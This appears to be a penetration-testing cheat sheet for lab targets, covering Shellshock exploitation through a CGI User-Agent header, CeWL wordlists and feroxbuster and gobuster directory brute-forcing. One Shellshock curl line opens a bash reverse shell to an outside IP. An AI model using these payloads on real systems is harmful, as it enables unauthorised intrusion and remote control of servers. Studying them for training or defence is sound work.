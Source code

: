 
#### Curl and Netcat
```text
By using the "whereis" command, we can check to see if there is a match in the $PATH folders. 
This is used for programs to be executed (so you can do "nc" rather than "/bin/nc")`
```
- `curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; nc  -h 2>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s \  | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'` 
- `curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  bash -i >& /dev/tcp/192.168.119.127/443 0>&1; echo zzzz;'" \  http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'` 


#### Cewl site & generate wordlist
- `cewl $url -m 6 -w results.txt`
- depth=2,wordLength=5 - `cewl -d 2 -m 5 -w results.txt $url`
> test file - wc -l results.txt

#### Wordlists
```text
/seclists/Discovery/Web_Content/common.txt
/usr/share/wordlists/dirb/common.txt
/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt 
/user/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```

#### Content Discovery | feroxBuster
```text
Examples and demonstrations of all features
    https://epi052.github.io/feroxbuster-docs/docs/examples/
```
- specif aspx extention - `feroxbuster -u $url -x aspx -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt`
- specifying extensions - `feroxbuster -u $url -x pdf -x js,html -x php txt json,docx`
- IIS - `feroxbuster -u $url -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt`
- multiple Headers - `./feroxbuster -u $url -H Accept:application/json "Authorization: Bearer {token}"`
- IPv6  - `feroxbuster -u http://[::1] --no-recursion -vv`
- read url from STDIN & pipe resulting urls to another tool `cat targets | feroxbuster --stdin --silent -s 200 301 302 --redirects -x js | fff -s 200 -o js-files`
- proxy traffic via Burp - `feroxbuster -u $url --insecure --proxy http://127.0.0.1:8080`
- proxy traffic through a SOCKS proxy - `feroxbuster -u $url --proxy socks5h://127.0.0.1:9050`
- Pass auth token - `feroxbuster -u $url --query token=0123456789ABCDEF`
- extract links and dig - `feroxbuster -u $url --extract-links`
- make some noise - `feroxbuster -u $url -threads 200`
- slow it down - `feroxbuster -u $url --threads 30 --scan-limit 2`
- Send all 200/302 responses to a proxy - `feroxbuster -u $url --replay-proxy http://localhost:8080 --replay-codes 200 302 -insecure`
- abort or reduce scan speed - `feroxbuster -u http://127.1 --auto-bail 
`feroxbuster -u http://127.1 --auto-tune`

#### Content Discovery | gobuster
- specify extentions - `gobuster dir -u http://search.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sql,txt,wpad,xlsx,xml,aspx -t 64`
- specify php extention - `gobuster dir -u 10.10.10.16 -x php -w /usr/share/wordlists/dirb/common.txt -t 20`
- use cookie - `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -b 400,404,500 -u http://10.10.10.10 -o [name].log -t 25 [-k] [-c cookie] [-a useragent]`
- use useragent - `gobuster dir --expanded --includelengeth --url http://site.htb --useragent "Mozilla ....."`
- supress error codes - `gobuster -u http://192.168.1.101 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e`
- use aginst frontpage - `gobuster dir -u http://10.11.1.X:80 -w /usr/share/seclists/Discovery/Web-Content/frontpage.txt`